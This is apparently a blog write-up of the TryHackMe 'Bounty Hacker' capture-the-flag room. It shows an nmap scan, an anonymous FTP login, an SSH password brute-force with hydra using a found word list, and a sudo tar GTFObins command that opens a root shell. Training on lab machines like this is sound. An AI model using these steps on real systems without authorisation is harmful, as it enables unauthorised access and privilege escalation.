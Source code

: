 ```yaml
---
layout: post
title: Bounty Hunter
date: 2020-08-03 04:00:00 +5:30
description: The Following Post is writeup of bountyhacker room of tryhackme # Add post description (optional)
tags: [tryhackme, CTF, GTFObins, FTP] # add tag
---
```


## Description:

The Following Post is writeup of Bounty Hunter room of tryhackme <https://tryhackme.com/room/cowboyhacker>

|Machine|Details
|:---|:--
|OS | linux
|Rating | Easy
|Creator | Sevuhl

## Summary:

  PortScan will give you 3 open ports 21,22 and 80. We got anoymous
  ftp server after login we will get a username and a passlist.
  bruteforce it using hydra and we will get user then sudo -l and GTFObins

## Walkthrough:

### Enumeration
Lets start with nmap scan

```terminal
$ nmap -sC -sV 10.10.87.183
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.17.224
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.28 seconds

```
#### Port 21

Start our enum with port 21
So we can see anonyomous listing is allowed

```terminal
$ ftp 10.10.87.183

-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
```

#### Hydra
so from this files we can see user lin and let's assume the locks.txt is passlist
and bruteforce ssh using hydra

```terminal
└──╼ $hydra -l lin -P locks.txt ssh://10.10.87.183
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-31 02:15:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.87.183:22/
[22][ssh] host: 10.10.87.183   login: lin   password: <redacted>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-31 02:15:10
```

Let's check whether lin have sudo privs or not

#### PrivEsc
```terminal
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Here we go so let's try GTFObins


```terminal
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

root@bountyhacker:~/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
```

Rooted
